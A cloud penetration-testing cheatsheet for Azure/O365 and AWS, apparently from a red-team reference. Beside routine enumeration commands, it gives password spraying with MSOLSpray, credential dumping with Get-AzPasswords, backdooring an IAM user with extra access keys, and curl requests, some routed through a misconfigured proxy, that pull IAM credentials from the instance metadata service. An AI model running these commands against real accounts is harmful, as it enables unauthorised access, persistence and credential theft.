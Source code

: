 # Cloud Pen-testing Part -3

````markdown
## Microsoft Azure & O365 CLI Tool Cheatsheet (Part-3)

### Other Azure & O365 Tools

#### Look for open storage blobs

```powershell
Invoke-EnumerateAzureBlobs -Base $BaseName
````

**Export SSL/TLS certs**

```powershell
Get-AzPasswords -ExportCerts Y
```

**Azure Container Registry dump**

```powershell
Get-AzPasswords
Get-AzACR
```

**PowerZure**

Azure security assessment tool

[https://github.com/hausec/PowerZure](https://github.com/hausec/PowerZure)

**ROADTools**

Framework to interact with Azure AD

[https://github.com/dirkjanm/ROADtools](https://github.com/dirkjanm/ROADtools)

**Stormspotter**

Red team tool for graphing Azure and Azure AD objects

[https://github.com/Azure/Stormspotter](https://github.com/Azure/Stormspotter)

**MSOLSpray**

Tool to password spray Azure/O365

[https://github.com/dafthack](https://github.com/dafthack)

```powershell
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Spring2020
```

### Amazon Web Services (AWS) CLI Tool Cheatsheet

#### Authentication

```bash
# Set AWS programmatic keys for authentication (use --profile= for a new profile)
aws configure
```

#### Open S3 bucket enumeration

**List the contents of an S3 bucket**

```bash
aws s3 ls s3://<bucketname>/
```

**Download contents of a bucket**

```bash
aws s3 sync s3://bucketname s3-files-dir
```

#### Account Information

**Get basic account info**

```bash
aws sts get-caller-identity
```

**List IAM users**

```bash
aws iam list-users
```

**List IAM roles**

```bash
aws iam list-roles
```

**List S3 buckets accessible to an account**

```bash
aws s3 ls
```

#### Virtual Machines

**List EC2 instances**

```bash
aws ec2 describe-instances
```

#### WebApps & SQL

**List WebApps**

```bash
aws deploy list-applications
```

````markdown
### List AWS RDS (SQL)

```shell
aws rds describe-db-instances --region <region name>
````

#### Serverless

**List Lambda Functions**

```shell
aws lambda list-functions --region <region>
```

**Look at environment variables set for secrets and analyze code**

```shell
aws lambda get-function --function-name <lambda function>
```

#### Networking

**List EC2 subnets**

```shell
aws ec2 describe-subnets
```

**List EC2 network interfaces**

```shell
aws ec2 describe-network-interfaces
```

**List DirectConnect (VPN) connections**

```shell
aws directconnect describe-connections
```

#### Backdoors

**List access keys for a user**

```shell
aws iam list-access-keys --user-name <username>
```

**Backdoor account with a second set of access keys**

```shell
aws iam create-access-key --user-name <username>
```

#### Instance Metadata Service URL

```
http://169.254.169.254/latest/meta-data
```

**Additional IAM credentials possibly available here**

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>
```

**Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS and misconfigured**

```shell
curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/metadata/iam/security-credentials/ && echo
```

**IMDS Version 2 has some protections, but these commands can be used to access it**

```shell
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```
